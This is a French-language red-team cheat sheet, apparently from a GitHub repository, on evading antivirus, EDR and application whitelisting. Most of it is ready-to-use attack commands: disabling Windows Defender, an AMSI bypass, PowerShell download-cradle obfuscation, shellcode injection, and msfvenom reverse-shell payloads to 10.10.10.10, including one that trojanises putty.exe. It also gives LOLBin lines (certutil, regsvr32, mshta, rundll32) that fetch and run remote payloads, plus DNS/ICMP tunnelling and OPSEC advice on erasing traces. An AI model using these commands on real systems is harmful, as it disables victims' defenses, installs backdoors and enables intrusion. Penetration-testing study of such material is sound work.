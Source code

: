 # Contournement des Défenses

Cette section couvre les techniques pour contourner les mécanismes de protection comme les antivirus, EDR, et autres systèmes de détection.

## Antivirus & Solutions EDR

### Reconnaissance des Défenses

Avant de tenter un contournement, identifiez les protections en place:

```powershell
# PowerShell - Vérifier Windows Defender
Get-MpComputerStatus

# Vérifier les services antivirus courants
tasklist /svc | findstr -i "defender mcafee symantec norton avg kaspersky trend"

# Vérifier l'état du pare-feu Windows
netsh advfirewall show currentprofile
```

### Désactivation des Protections (si privilèges suffisants)

```powershell
# Désactiver Windows Defender (temporairement, requiert des privilèges élevés)
Set-MpPreference -DisableRealtimeMonitoring $true

# Désactiver AMSI (Anti-Malware Scan Interface)
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

## Techniques d'Obfuscation

### Obfuscation de PowerShell

```powershell
# Base64 encoding
$Command = 'powershell -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC...'

# String manipulation
$s="iex (New-Object Net.WebClient).DownloadString".Replace("iex", "IEX")

# Replaçage de caractères
$payload = "function Invoke-Mimikatz{...}"
$encoded = $payload -replace 'Mimikatz', 'FunTool' -replace 'DumpCreds', 'CollectInfo'
```

### Obfuscation avec des Outils Spécialisés

```bash
# Utilisation d'Invoke-Obfuscation
powershell -ep bypass
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
```

```bash
# Chameleon pour obfusquer des scripts PowerShell
python chameleon.py --file payload.ps1 --technique all
```

### Shellcode Injection

L'injection de shellcode dans des processus légitimes peut échapper à la détection:

```powershell
# PowerShell en mémoire
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc...
'
Add-Type -TypeDefinition $code -Language CSharp
[Syscalls]::InjectShellcode([Byte[]]$buf)
```

## Modification des Signatures

### Modification des Fichiers Binaires

```bash
# Hex editing d'un payload détecté
hexedit shell.exe
# Modifier quelques octets non-essentiels
```

```bash
# Packers et crypters
upx --best --ultra-brute shell.exe
```

### Création de Payloads Personnalisés avec MSFvenom

```bash
# Utiliser des encodeurs multiples
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o encoded_shell.exe

# Injection dans un template légitime
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -x /path/to/putty.exe -f exe -o putty_trojan.exe
```

## Techniques d'Exécution Indirecte

### Exécution via Outils Légitimes (Living Off The Land)

```powershell
# Exécution via certutil
certutil -urlcache -split -f http://10.10.10.10/payload.b64 payload.b64
certutil -decode payload.b64 payload.exe

# Exécution via regsvr32
regsvr32 /s /n /u /i:http://10.10.10.10/payload.sct scrobj.dll

# Exécution via rundll32
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http://10.10.10.10/payload.sct")
```

### Utilisation de Interpréteurs Alternatifs

```bash
# Exécution via WSH (Windows Script Host)
wscript //E:jscript payload.txt

# Exécution via MSHTA
mshta javascript:a=GetObject("script:http://10.10.10.10/payload.sct").Exec();close();
```

## Contournement des AppLocker et Whitelisting

```powershell
# Utilisation d'exécutables Microsoft signés
Installutil.exe /logfile= /LogToConsole=false /U payload.dll

# Exécution via PowerShell Constrained Language Mode
function bypass-clm {
    $ExecutionContext.SessionState.LanguageMode = "FullLanguage"
    Get-ChildItem env: | Format-Table -AutoSize
}
```

## Techniques Réseau

### Tunneling et Encapsulation

```bash
# DNS Tunneling
iodine -f 10.10.10.10 dns.tunnel.com

# ICMP Tunneling
ping-tunnel -R 10.10.10.10 -r 443 -l 8000
```

### Utilisation de Ports Communs

```bash
# Utilisation de ports standards pour reverse shells
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=80 -f exe -o http_shell.exe
```

## Bonnes Pratiques et Considérations

1. **Test préalable**: Toujours tester les payloads dans un environnement contrôlé
2. **Mutations**: Éviter les payloads connus et créer des variations uniques
3. **Approche graduelle**: Commencer par des techniques simples avant d'utiliser des méthodes avancées
4. **Persévérance**: Si une méthode échoue, essayer différentes approches
5. **OPSEC**: Minimiser les traces et nettoyer les artéfacts après utilisation

## Matrice de Décision

| Défense | Technique recommandée |
|---------|------------------------|
| Windows Defender | Obfuscation PowerShell + exécution en mémoire |
| Solutions EDR | Injection de processus légitimes + LOLBins |
| Application Whitelisting | Utilisation de binaires Microsoft signés |
| Inspection Réseau | Tunnelling DNS ou HTTPS + ports communs |
| Analyse Statique | Encodage multiple + modification de signatures |